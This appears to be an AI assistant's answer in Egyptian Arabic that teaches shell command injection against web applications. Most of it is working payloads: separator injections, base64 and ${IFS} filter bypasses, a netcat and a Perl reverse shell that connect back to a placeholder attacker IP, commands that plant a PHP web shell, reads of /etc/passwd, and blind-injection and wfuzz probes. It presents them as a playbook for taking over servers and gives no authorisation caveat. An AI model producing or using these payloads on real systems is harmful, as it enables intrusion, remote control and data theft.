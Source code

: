 تمام، زي ما فهمت إنك عايز شرح لنفس القسم مرة تانية "تقنيات حقن أوامر الـ Shell" (Shell Command Injection Techniques)، بس هحاول أعمل الشرح مختلف شوية في الأمثلة والتفاصيل عشان تستفيد أكتر، مع الحفاظ على نفس الطريقة: شرح عملي مع أكواد وأوامر، خلاصة Pentest بالعامية المصرية بعد كل جزء، وسيناريوهات استغلال في الآخر.

---
### **1. حقن الأوامر باستخدام الفواصل (Command Injection with Separators)**
#### **شرح عملي:**
الحقن هنا بيعتمد على إنك تضيف أوامرك للأمر الأصلي باستخدام فواصل زي `;` (للتنفيذ المتتابع)، `&&` (لو الأول نجح)، أو `|` (لتوجيه الخرج). التطبيق لو مش بيفحص المدخلات، بينفذ كل حاجة تبعتها.

- **مثال:** لو فيه أداة بحث بتستخدم `grep` على السيرفر، ممكن تضيف أمرك.

#### **كود عملي (PHP مع حقن بفواصل):**
- كود ضعيف:
```php
<?php
$search = $_GET['query'];
$output = shell_exec("grep '$search' /var/www/data.txt");
echo "<pre>$output</pre>";
?>
```
- ابعت طلب:
```
http://<IP>/search.php?query=test; whoami
```
- السيرفر هينفذ `grep 'test; whoami' /var/www/data.txt`، وبعدها `whoami` لوحده، ويرجعلك اسم المستخدم.

#### **أمر عملي (تجربة يدوية):**
```bash
curl "http://<IP>/search.php?query=hello||id"
```
- لو رجعلك `uid=33(www-data)`، يبقى الفاصل `||` نفع (ينفذ الأمر التاني لو الأول فشل).

#### **خلاصة Pentest بالعامية:**
"جرب حط فواصل زي `;` أو `||` بعد المدخل العادي، واضيف حاجة زي `id` أو `whoami`. لو السيرفر نفذها، يبقى بيسمع الكلام وتقدر تخليه يغنيلك!"

---

### **2. حقن الأوامر باستخدام التشفير أو التضليل (Obfuscation Techniques)**
#### **شرح عملي:**
لو التطبيق فيه فلتر بسيط (زي منع كلمات زي `whoami` أو `;`)، بتقدر تتجنبه بتشفير الأوامر (زي Base64) أو استخدام متغيرات Shell زي `${}` أو تضليل بالمسافات.

- **مثال:** تشفير الأمر عشان يعدي الفلتر ويتفك على السيرفر.

#### **كود عملي (PHP مع فلتر):**
- كود بيمنع `whoami`:
```php
<?php
$input = $_GET['input'];
if (strpos($input, "whoami") === false) {
    $output = shell_exec("echo " . $input);
    echo "<pre>$output</pre>";
}
?>
```
- جرب تجاوز:
```
http://<IP>/test.php?input=$(echo d2hvYW1p | base64 -d)
```
- `d2hvYW1p` هو `whoami` مشفر، السيرفر هيفك التشفير وينفذه.

#### **أمر عملي (تضليل بالمسافات):**
- لو الفلتر بيمنع `;`， جرب:
```bash
curl "http://<IP>/test.php?input=test${IFS}id"
```
- `${IFS}` بديل المسافة في Shell، ينفذ `test id`.

#### **خلاصة Pentest بالعامية:**
"لو السيرفر بيفلتر حاجات، شفر الأوامر بـ Base64 أو استخدم `${IFS}` بدل المسافة. جرب كمان حاجات زي `$(id)` وشوف لو بيعدي الفلتر ويجيبلك اللي عايزه!"

---

### **3. حقن أوامر لفتح Shell كامل (Full Shell Access)**
#### **شرح عملي:**
التقنية دي بتركز على استخدام الحقن عشان تفتح Reverse Shell أو تكتب ملف Web Shell، بدل مجرد تنفيذ أوامر بسيطة. الهدف إنك تتحكم في السيرفر بشكل كامل عن بُعد.

#### **كود عملي (Reverse Shell):**
- لو فيه ثغرة زي المثال الأول:
```
http://<IP>/search.php?query=test; nc -e /bin/bash <YOUR_IP> 4444
```
- استمع على جهازك:
```bash
nc -lvnp 4444
```
- لو اتفتحت شاشة Shell، يبقى بقيت الBoss.

#### **كود عملي (كتابة Web Shell):**
- ابعت:
```
http://<IP>/search.php?query=test; echo '<?php system($_GET[cmd]); ?>' > /var/www/html/shell.php
```
- افتح:
```
http://<IP>/shell.php?cmd=whoami
```

#### **خلاصة Pentest بالعامية:**
"لو عايز تتحكم كامل، جرب تفتح Reverse Shell بـ `nc` أو اكتب Web Shell بـ `echo`. لو نجحت، يبقى السيرفر بقى بتاعك وتقدر تعمل فيه اللي نفسك فيه!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Basic Separators:**
   - نفذ أوامر بسيطة:
     ```bash
     curl "http://<IP>/search.php?query=test; cat /etc/passwd"
     ```
     لو رجعلك الملف، يبقى نجحت.

2. **Obfuscation:**
   - Base64:
     ```bash
     curl "http://<IP>/search.php?query=test; echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash"
     ```
     (يعني `cat /etc/passwd`).
   - Variable Substitution:
     ```bash
     curl "http://<IP>/search.php?query=test${IFS}$(whoami)"
     ```

3. **Full Shell Access:**
   - **Reverse Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; perl -e 'use Socket;\$i=\"<YOUR_IP>\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));connect(S,sockaddr_in(\$p,inet_aton(\$i)));open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");'"
     ```
     استمع: `nc -lvnp 4444`.
   - **Web Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; printf '<?php system(\$_GET[cmd]); ?>' > /var/www/html/shell.php"
     ```
     استخدم: `http://<IP>/shell.php?cmd=id`.

4. **مشترك:**
   - **Blind Injection:** لو ما بيرجعش رد:
     ```bash
     curl "http://<IP>/search.php?query=test; ping -c 10 <YOUR_IP>"
     ```
     شوف الـ ping على جهازك.
   - **File Creation:** اكتب ملف:
     ```bash
     curl "http://<IP>/search.php?query=test; echo 123 > /tmp/test.txt"
     ```
     جرب تسحبه بعدين.
   - **Automated Testing:** استخدم wfuzz:
     ```bash
     wfuzz -c -z file,/usr/share/wordlists/payloads.txt "http://<IP>/search.php?query=testFUZZ"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، أو عايز حاجة مختلفة، قوللي وأنا أفصلك!